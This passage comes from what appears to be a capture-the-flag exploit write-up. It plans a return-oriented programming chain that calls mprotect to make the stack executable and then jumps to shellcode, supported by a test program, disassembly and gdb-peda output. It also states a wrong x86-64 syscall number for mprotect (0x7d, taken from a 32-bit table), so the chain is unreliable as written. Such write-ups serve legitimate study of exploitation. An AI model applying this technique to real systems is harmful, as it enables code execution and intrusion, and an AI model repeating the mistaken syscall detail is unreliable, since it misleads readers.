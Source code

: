 ```

        printf("Ret: %i\n", ret);
}
```

Test:
```
root@hlUbuntu64:~/challenges/challenge16# gcc mprotect-test.c && ./a.out
Stack var: 0x7fffffffe480
Stackbase: 0x7fffffffe000
Ret: 0
```

Call to mprotect, via disassembly:
```
0x0000000000400627 <+81>:	mov    rax,QWORD PTR [rbp-0x28]
0x000000000040062b <+85>:	mov    edx,0x7
0x0000000000400630 <+90>:	mov    esi,0x10
0x0000000000400635 <+95>:	mov    rdi,rax
0x0000000000400638 <+98>:	call   0x4004c0 <mprotect@plt>
```

With x86-64 bit function call convention: RDI, RSI, RDX

According to http://syscalls.kernelgrok.com/ sys_mprotect is syscall nr is  0x7d.
x86-64 bit system call convention is: RDI, RSI, RDX (syscall in RAX).


## ROP chain plan

We'll do the following ROP chain:

- pop RAX   // <-- SIP is here
- 0x7d      // sys_mprotect
- pop RDI
- addr      // addr of stack with shellcode
- pop RSI
- 4096      // size of stack
- pop RDX
- 0x7       // stack permissions (RWX)
- syscall
- addr of shellcode


## Find stack addr of shellcode

First, lets find the shellcode address:

```
gdb-peda$ disas readStrInput
Dump of assembler code for function readStrInput:
   0x0000000000400a68 <+0>:	push   rbp
   0x0000000000400a69 <+1>:	mov    rbp,rsp
   0x0000000000400a6c <+4>:	sub    rsp,0xa0
   0x0000000000400a73 <+11>:	mov    DWORD PTR [rbp-0x94],edi
   0x0000000000400a79 <+17>:	mov    DWORD PTR [rbp-0x98],esi
   0x0000000000400a7f <+23>:	lea    rax,[rbp-0x90]
   0x0000000000400a86 <+30>:	mov    esi,0x80
   0x0000000000400a8b <+35>:	mov    rdi,rax
   0x0000000000400a8e <+38>:	call   0x4008d0 <bzero@plt>
   0x0000000000400a93 <+43>:	mov    eax,DWORD PTR [rbp-0x94]
   0x0000000000400a99 <+49>:	mov    esi,0x400ea8
   0x0000000000400a9e <+54>:	mov    edi,eax
   0x0000000000400aa0 <+56>:	mov    eax,0x0
   0x0000000000400aa5 <+61>:	call   0x400860 <dprintf@plt>
   0x0000000000400aaa <+66>:	mov    eax,DWORD PTR [rbp-0x94]
   0x0000000000400ab0 <+72>:	mov    esi,0x400eb8
```